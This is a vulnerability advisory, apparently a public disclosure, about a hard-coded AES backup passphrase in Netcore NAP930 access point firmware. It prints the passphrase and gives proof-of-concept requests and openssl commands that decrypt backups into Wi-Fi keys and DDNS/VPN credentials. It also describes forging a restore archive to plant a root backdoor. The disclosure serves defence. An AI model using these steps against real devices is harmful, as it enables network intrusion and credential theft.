

# Netcore NAP930 Access Point

- Vendor: Netcore
- Product: Netcore NAP930 (WiFi 6 Access Point, up_model: NAP930)
- Firmware Version: V0.1.241010.141410 (OpenWrt 21.02-SNAPSHOT r0-1d32b23a6, mediatek/mt7981, aarch64 cortex-a53)
- Vulnerability Type: Use of Hard-coded Cryptographic Key (CWE-798 / CWE-321)

## Overview

The configuration backup/restore feature of the Netcore NAP930 encrypts backup archives with a **hard-coded AES passphrase** shared by all devices of this firmware line. Any party who obtains a backup file (`.tar.gz_aes`) — e.g. via a leaked download, an unencrypted HTTP transfer, a cloud/support upload, or a second-hand device — can decrypt it offline and recover the device's full configuration, including Wi-Fi keys and third-party credentials.

The backup is downloaded from an authenticated endpoint:

`POST/GET /cgi-bin/backup?action=backup&sid=<session-id> HTTP/1.1`

(36-byte session id from `session login`; factory-fresh devices ship with an **empty root password**, lowering the authentication barrier.)

## Vulnerability Details

`/lib/functions/backup_common.sh` (shell library used by `/www/cgi-bin/backup`):



```sh
aes_pass="netcore123"                                  # <- hard-coded, fleet-wide, never rotated

function backup_cfg() {
	sysupgrade -b /tmp/backup.tar.gz                   # packs the whole /etc/config tree
	openssl enc -e -aes-128-cbc -pbkdf2 -in ... -out ... -pass pass:$aes_pass
}

function restore_cfg() {
	openssl enc -d -aes-128-cbc -pbkdf2 -in $1 -out /tmp/backup.tar.gz -pass pass:$aes_pass
	tar -C /tmp/backup -xzf /tmp/backup.tar.gz        # model check, then:
	tar -C / -xzf /tmp/backup.tar.gz                  # <- extracts to / as root
}
```

The passphrase is embedded in the read-only firmware (squashfs), identical on every unit and extractable from the vendor's public firmware image with `strings`. The AES-128-CBC envelope therefore provides no confidentiality against anyone who can read the firmware — which is everyone.

Verified contents of a decrypted backup archive:

```
etc/config/access_control_ap   etc/config/auto_ac    etc/config/ddns
etc/config/dhcp                etc/config/dropbear   etc/config/firewall
etc/config/lan.mac             etc/config/wan.mac    etc/config/model.bak ...
```

including Wi-Fi credentials (`wificfg`), DDNS/VPN account passwords (`ddns`, `vpn_client`), network topology and management settings.

**Related write-side risk (same key, same library):** because the key also decrypts on restore, an attacker able to reach `action=restore` can forge an arbitrary backup: the model check is bypassed by shipping `etc/config/model.bak` containing the device's `up_model` value, and `tar -C / -xzf` then extracts attacker-controlled **relative paths as absolute locations with root privileges** (e.g. `etc/rc.d/S99backdoor`) — an arbitrary-file-write to RCE path. On this exact firmware the multipart footer trimming is broken (`/usr/bin/truncate` is a symlink to `/dev/null`, so `truncate` always fails and the AES blob is rejected before decryption), which currently blocks the restore path; on sibling firmware sharing `backup_common.sh` with a working `truncate`, the forged-backdoor restore is a full authenticated RCE. The disclosure direction (`action=backup`) is fully exploitable on this firmware.

## Proof of Concept

Step 1 — authenticate and download the backup (any valid web session; session id is 32 hex chars):

```http
GET /cgi-bin/backup?action=backup&sid=00000000000000000000000000000000 HTTP/1.1
Host: 192.168.1.1

```

(with a real `sid` obtained from `POST /ubus` `{"method":"call","params":["00000000000000000000000000000000","session","login",{"username":"root","password":"<web password>"}]}`)

Response headers/body: `Content-Type: application/x-targz`, `Content-Disposition: attachment; filename="backup-<hostname>-<date>.tar.gz"` — the body is `openssl enc'd data with salted password`.

Step 2 — offline decryption with the hard-coded passphrase:

```sh
openssl enc -d -aes-128-cbc -pbkdf2 -pass pass:netcore123 -in backup.tar.gz -out plain.tgz
tar tzf plain.tgz        # -> full /etc/config listing
tar xzf plain.tgz        # -> plaintext configuration, Wi-Fi keys, DDNS credentials
```

## Impact

Complete offline disclosure of the device configuration: Wi-Fi SSID/passphrase (immediate network access for anyone physically nearby), DDNS/VPN third-party credentials (credential reuse / account takeover), internal topology and management data. The same key enables forged-backup attacks on sibling firmware (arbitrary file write as root → persistent backdoor).

## Reproduction Result

Dynamically verified against the firmware emulated with qemu-aarch64 user-mode + chroot: a 19 008-byte backup downloaded via `action=backup` (authenticated session) was decrypted with `openssl enc -d -aes-128-cbc -pbkdf2 -pass pass:netcore123` (exit 0), yielding a complete `etc/config/` tree. The forged-restore behavior was additionally verified in the emulation both with the original (broken) `truncate` — request rejected with `result:[2]`, no file written — and with a repaired `truncate` — the crafted archive member `etc/pwned_by_restore` was written to `/etc/` as root, confirming the arbitrary-write primitive behind the currently-blocked restore path.
